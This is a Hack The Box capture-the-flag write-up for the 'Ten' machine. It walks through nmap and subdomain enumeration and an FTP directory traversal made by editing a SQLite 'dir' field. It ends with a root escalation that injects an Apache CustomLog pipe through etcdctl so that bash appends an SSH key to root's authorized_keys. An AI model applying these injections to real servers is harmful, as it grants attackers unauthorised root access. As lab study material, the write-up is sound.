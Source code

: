# 🧪 Machine Name: Ten

**Platform:** Hack The Box  
**IP Address:** 10.129.234.158  
**Difficulty:** Hard  

---

## 🧭 Overview

"Ten" was a highly engaging challenge combining web hosting logic, virtual hosting exploitation, FTP traversal, and a clever use of Apache's `CustomLog` pipe functionality to gain root access.

Initial access was gained through self-service web account creation and FTP access. Privilege escalation was achieved by leveraging control over Apache logging to inject and execute shell commands as root.

---

## 🔍 Enumeration

### Nmap Scan

```bash
nmap -p- --min-rate 10000 10.129.234.158
nmap -p 21,22,80 -sCV -oN nmapscan 10.129.234.158
```

**Ports Open:**  
- 21: Pure-FTPd  
- 22: OpenSSH  
- 80: Apache/2.4.52 (Ubuntu)

---

## 🌐 Web Exploration

- Web hosting signup created a personal subdomain (e.g., `inkedqt.ten.vl`) with FTP credentials
- Subdomain enumeration with FFUF revealed internal panel: `webdb.ten.vl`

### WebDB Exploitation

- Leaked FTP credentials with hashed password
- Modified user's `dir` entry in SQLite DB to gain write access outside sandbox

```json
"dir": "/srv/../home/tyrell/.ssh/./"
```

---

## 📂 FTP Traversal & SSH Access

- Uploaded public key to `/home/tyrell/.ssh/authorized_keys`
- Logged in as user `tyrell` via SSH
- Gained user flag

```bash
ssh -i ~/.ssh/myremotekey tyrell@ten.vl
cat .user.txt
```

---

## ⚙️ Privilege Escalation

- Apache `CustomLog` used as shell injection vector
- Used etcdctl to modify vhost config:

```apache
CustomLog "|/bin/bash -c 'cat /home/tyrell/.ssh/authorized_keys >> /root/.ssh/authorized_keys'" common
```

- SSH as root using same key

```bash
ssh -i ~/.ssh/myremotekey root@pwn1.ten.vl
cat /root/root.txt
```

---

## 🧠 Lessons Learned

- Subdomain self-service environments can lead to privilege boundaries being broken via configuration edits
- WebDB access with ability to edit paths is a high-risk misconfiguration
- Apache `CustomLog` pipe injection is a powerful and underused root vector
- `etcdctl` is a juicy target when exposed to users

---

## 📸 Proof

![Ten Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/ten.png)